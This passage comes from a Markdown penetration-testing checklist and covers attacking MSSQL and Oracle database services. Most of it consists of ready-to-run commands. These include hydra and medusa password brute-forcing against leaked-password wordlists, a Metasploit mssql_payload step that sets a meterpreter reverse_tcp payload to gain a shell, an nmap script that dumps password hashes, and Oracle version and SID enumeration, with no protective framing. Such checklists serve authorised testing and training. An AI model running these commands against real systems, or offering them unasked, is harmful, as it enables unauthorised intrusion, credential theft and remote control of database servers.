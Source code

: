	nmap -sU --script=ms-sql-info $IP
	```
- [ ] Password bruteforcing
	```bash
	# using msf
	msf > use auxiliary/scanner/mssql/mssql_login
	
	hydra -l <USERNAME> -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt $IP -s <PORT> -t 5 mssql
	hydra -s <PORT> -C ./wordlists/mssql-default-userpass.txt -u -f $IP mssql
	medusa -h $IP -M mssql -u sa -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -e ns -F -t 5
	```
- [ ] Gain shell using gathered credentials
	```bash
	# using msf
	msf > use exploit/windows/mssql/mssql_payload
	msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
	```
- [ ] Log in to a MSSQL Server
	```bash
	sqsh -S $IP -U sa -P password -D db_name
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google
		```bash
		site:github.com *Service version.release*
		```
	- [ ] Check with nmap
		```bash
		nmap -vv -sV -Pn -p \<PORT\> --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=%s,smsql.username-sa,mssql.password-sa $IP
		```
### Oracle (TCP 1521)
-  [ ] Default credentials
	```bash
	hydra -s <PORT> -C ./wordlists/oracle-default-userpass.txt -u -f $IP
	```
- [ ] tnscmd10g version -h $IP
- [ ] tnscmd10g status -h $IP
- [ ] **oracle-version** \- MSF module which scans Oracle DB to find the version
	```bash
	# using msf
	msfcli auxiliary/scanner/oracle/tnslsnr\_version rhosts=$IP E
	```
- [ ] **oracle-sid** \- MSF module to enumerate the Oracle DB SID
	```bash
	# using msf
	msfcli auxiliary/scanner/oracle/sid\_enum rhosts=$IP E
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google

[vulnscan.nse]: https://github.com/scipag/vulscan
[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum]: http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
[https://www.exploit-db.com/exploits/34900]: https://www.exploit-db.com/exploits/34900
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
[Owasp code injection]: https://owasp.org/www-community/attacks/Code_Injection
